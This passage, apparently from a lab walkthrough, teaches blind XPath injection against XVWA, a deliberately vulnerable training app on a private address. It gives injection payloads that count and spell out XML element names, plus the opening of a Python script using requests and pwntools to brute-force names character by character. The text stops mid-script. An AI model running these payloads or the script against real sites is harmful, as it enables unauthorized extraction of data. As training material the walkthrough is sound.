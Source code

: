 Resetting the tags that we have discovered our *XML* would look like this:

```xml
<Coffees>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
</Coffees>
```

Once again we must list the number of *sub-labels* and find out the content of each of them:

```bash
search=1' and count(/*[1]/*[1]/*)='5&submit=

search=1' and substring(name(/*[1]/*[1]/*[1]), 1, 1)='I&submit=
```

Now the number of labels we have is *5* in the first sub-label and *4* in the rest.

Let's get the names of all the labels of the first sub-label with this *Python* script:

```python
#!/usr/bin/python3

import requests
import time
import sys
import string
import signal

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://192.168.50.122/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():
    data = ""

    p1 = log.progress("Brute force")
    p1.status("Starting brute force attack")

    time.sleep(2)

    p2 = log.progress("Data")

    for first_position in range(1, 6):
        for second_position in range(1, 21):
            for character in characters:
                post_data = {
                    'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (first_position, second_position, character),
                    'submit': ''
```